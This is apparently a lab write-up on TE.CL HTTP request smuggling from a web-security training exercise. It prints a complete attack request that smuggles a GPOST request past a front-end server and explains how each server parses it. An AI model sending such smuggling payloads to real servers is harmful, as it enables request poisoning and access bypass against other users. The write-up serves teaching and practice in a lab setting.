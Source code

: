 ![alt text](hrs3.png)

The character X is now added to the next normal request

=> **TE.CL**

The goal of this lab is to make the server appears to use the method GPOST.

Attack request:
```
POST / HTTP/1.1
Host: 0a1b002e0471b898802c53f900e4001d.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Content-Length: 4

56
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 6

0        

```
- The front-end use **Transfer-Encoding** header, which process all the below request:
```
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
\n \r
```
- The back-end use **Content-Length**, which only process the first 4 bytes:
```
56 \r \n
```
So the remain part will be smugged
```
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 6

0 \n \r
\n \r
```
- Note that we need to add one more byte in **Content-Length** header 
